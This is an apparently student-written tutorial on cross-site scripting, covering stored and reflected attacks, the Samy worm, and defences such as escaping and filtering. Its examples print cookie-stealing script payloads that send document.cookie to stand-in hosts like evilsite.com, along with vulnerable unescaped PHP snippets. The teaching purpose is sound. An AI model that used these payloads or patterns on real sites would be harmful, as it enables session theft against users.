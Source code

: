 Cross-Site Scripting
====================

Introduction
------------


Cross-site scripting is when an attacker inserts code into a legitimate website
and is considered one of the more dangerous website vulnerabilities. Web sites are
vulnerable  when they don't use validation or encoding on user generated
data. This is dangerous for the site users, who are at risk for their data being
stolen. There are several different ways for web applications to help prevent
Cross-Site Scripting, such as escaping characters, Signature based filtering,
and avoiding/validating HTML given by users. Users can also take precautions, such
as using anti-viruses, checking that the sites they are using are safe, and being
careful of clicking on unknown links.


What is Cross-Site Scripting and Why is it Dangerous?
-----------------------------------------------------


XSS, or Cross-Site Scripting is inserting malicious code into an actual website
to gather information from the users. Most of the danger lies on the users of the
sites, as the code targets their information and use rather than the website itself. [XSS]_


* Some examples of what dangerous XSS could do include:

	1. Access session cookies, which can be used to impersonate the user
	2. Keylogging, which tracks the users keystrokes to catch usernames and passwords,

	3. Phishing, or sending out fake and/or malicious emails, usually to steal user
	   data such as usernames and passwords.
	4. Installing malicious software or viruses on the user's computer
	5. and Identity Theft [xss]_

These attacks can be damaging if the attacker manages to steal a user's username and/or
password. They can be used to get into user accounts and either use their accounts as
dummy accounts to send out other attacks, steal the users private, saved information,
or could be used to purchase items in the users's name if their purchasing information is
included in the account, such as an Amazon Prime or credit card account.

* There are two different types of XSS attacks, stored and reflective

	* Stored XSS is "stored", or imbedded, on the website itself and steals data every time
	  the website is visited. [xss-prevention]_ It is also known as "persistent XSS",
	  and can be the more dangerous of the two types. [xss-attacks]_

	* Reflective XSS is stored in a link embedded in the website that the user has to
	  click on to activate. [xss-attacks]_


XSS attacks have been around since the start of the web, first becoming a problem when
JavaScript language was introduced to the web application world. [Grossman]_

* One of the earliest XSS worms was known as "Samy", which was a small code that
  a 19 put in his MySpace profile to add anyone who viewed his profile as a friend.
  But it also added the code invisible to everyone who viewed his page, and it
  quickly multiplied exponentially, adding over one million friend requests in just over
  24 hours before MySpace took the website down. [Grossman]_ [Franceschi]_

What Can Be Done to Prevent XSS through Web Security
----------------------------------------------------

* Web Application Firewall (WAF) - the most common protection [xss-attacks]_

	* Many web browsers now come with built-in defenses against some XSS attacks.
	  This mostly works on reflective XSS, as the browsers can detect when common attack
	  senarios are run, and can neutralize them even if the user clicks on the link
	  itself. [Shema]_

* Signature based Filtering - "identifies and blocks malicious requests" [xss-attacks]_

* Use escape characters -  escape any characters that could change the websites code [xss-prevention]_

	* PHP Applications can use ``htmlentities()`` , a built in function for
	  escaping characters

	* Also escape any HTML, attribute, JavaScript, JSON (with HTML), CSS, and URL
	  before entering any un-trusted or un-validated data [xss_cheat_sheet]_

	* One way to do this is to use regular expressions to validate data that is entered.
	  Regular expressions often include escape characters that would be allowed, such as
	  ``\.`` for "." Regular expressions can also be used to find special characters
	  and escape them with a special sequences  such as ``&amp;`` for &. [Watts]_

	* Many browers use a *blacklist* or a *whitelist* with regular expressions.
	  The *blacklist* looks for matches to disallowed data, while the *whitelist*
	  matches valid data. [Shema]_

* Escape data output, not input - when displaying to user [xss-prevention]_

	* "Security researcher Jouko Pynnönen of Klikki Oy realized MySQL column
	  truncation can defeat before-insert XSS prevention strategies" [xss-prevention]_

* Avoid using straight HTML - use a markup language, such as Markdown or
  ReStructuredText

* If HTML is needed, such as on blogging site where users may expect the ability
  to use HTML on their personal blogs and/or comments, use a library such as HTML
  Purifier to help validate the HTML [xss-prevention]_


What You Can Do To Spot/Prevent XSS
-----------------------------------

* Be careful of links that you click on in websites and through emails. Phishing
  attacks are usually heard coming through emails, and happen when the user clicks on a
  link that leads them to a malicious website.

	* For example, if you get an email saying that your password/username has expired
	  or needs to be changed, the safest option is to go to a new tab and go to the
	  website yourself to see if the password/username really needs changed, and if
	  it does, you can change it through the website itself.

	* The same process should be used if you get an email saying that your shipping
	  or billing information needs to be updated for an online order.

* Make sure that websites that you are visiting are safe, or take precautions before
  or while you are on the website.

	* Some anti-viruses, such as Norton and Kaspersky, come with web add-ons that will
	  check out websites when you google them. For Kaspersky, this can show up as a
	  green tag with a K inside next to websites that it has verified are safe to
	  visit, a grey version next to links that it cannot verify, and a red version for
	  links that are deemed dangerous.

* Have a good Anti-Virus/ Web Security, such as McAfee AntiVirus Plus, Bitdefender
  AnitVirus Plus, or Kaspersky Anti-Virus. As shown above, these can protect you from
  malicious links while googling, but they can also protect the user from phishing
  and keylogging attempts.

Example of Cross-Site Scripting:
--------------------------------

.. figure:: stored_XSS.png

	Stored XSS [xss-attacks]_


* Stored XSS Example: An attacker figures out that the comment section of a website can store
  HTML tags. They leave a comment that says:

  "Great price for a great item! Read my review here <script src="http://hackersite.com/authstealer.js"> </script>" [xss-attacks]_

  This is stored in the website, and every time someone visits the page, they can
  have their session cookies stolen.


	* However, this is harder for hackers to attempt, because they must find a
	  highly trafficked site that also has a security hole that they can infiltrate. [xss-prevention]_

* Another Stored XSS example would be:

	* Vulnerability: ``<div id="profile"><?php echo $user['profile']; ?></div>``
	  This only works if the profile is pulled from a database with no escapeing
	  (discussed above) to protect it. The following script will show how this
	  vulnerability could be used to steal the user's cookies. This would allow
	  the hacker to impersonate the user who looked at the website. [xss-attacks]_

	* Attack:

	  ``<script>``

		``window.open("http://evilsite.com/cookie_stealer.php?cookie=" + document.cookie, "_blank");``

	  ``</script>``


* Reflective XSS: Similar to the first stored example above, except that the user would have to click on the link
  to activate the code.

* Another reflectve XSS example would be:

	* Vulnerability: ``<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="post">``
	  All the attacker needs to do in this case is get the user to click on the link
	  shown below, and an alert saying "XSS"(code) will pop up.  [xss-attacks]_

	* Attack:

	  Link: ``/form.php?%22%20onload%3D%22alert(%27XSS%27)%3B``

	  Code: ``<form action="/form.php?" onload="alert('XSS');" method="post">``

In real life, this would almost certainly do more harm than a simple pop-up. Some
examples would be popping up a new form for you to fill out, that would sent the
data to the hackers, or showing an error with a message saying you need to download
their specific "software" (most likely malware) to get rid of the error.


Sources
-------

.. [xss-attacks] "`Cross Site Scripting (XSS) Attacks <https://www.incapsula.com/web-application-security/cross-site-scripting-xss-attacks.html>`_." Incapsula.com. Imperva, n.d. Web. 18 Feb. 2017.

.. [xss-prevention] "`Everything You Need to Know About Preventing Cross-Site Scripting Vulnerabilities in PHP - Paragon Initiative Enterprises Blog <https://paragonie.com/blog/2015/06/preventing-xss-vulnerabilities-in-php-everything-you-need-know>`_." RSS. Paragon Initiative Enterprises , 16 June 2015. Web. 19 Feb. 2017.

.. [Franceschi] Franceschi-Bicchierai, Lorenzo. "`The MySpace Worm that Changed the Internet Forever. <https://motherboard.vice.com/en_us/article/the-myspace-worm-that-changed-the-internet-forever>`_." Motherboard. Motherboard, 04 Oct. 2015. Web. 23 Feb. 2017.

.. [Grossman] Grossman, Jeremiah. *XSS Attacks: Cross-site Scripting Exploits and Defense*. N.p.: Syngress, 2007. Print.

.. [Shema] Shema, Mike. “HTML Injection & Cross-Site Scripting (XSS).” *Hacking Web Apps: Detecting and Preventing Web Application Security Problems* , Syngress, 2012, pp. 23–78.

.. [Watts] Watt, Andrew. *Beginning Regular Expressions*. Indianapolis , IN, Wiley, 2005. Print.

.. [xss] "`What is Cross-Site Scripting and How Can You Fix it? <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_." Acunetix. Acunetix. n.d. Web. 16 Feb. 2017.

.. [xss_cheat_sheet] "`XSS (Cross Site Scripting) Prevention Cheat Sheet <https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>`_." XSS (Cross Site Scripting) Prevention Cheat Sheet - OWASP. OWASP, n.d. Web. 19 Feb. 2017.



*Written by Kyann, Edited by Rasim and Cole.*

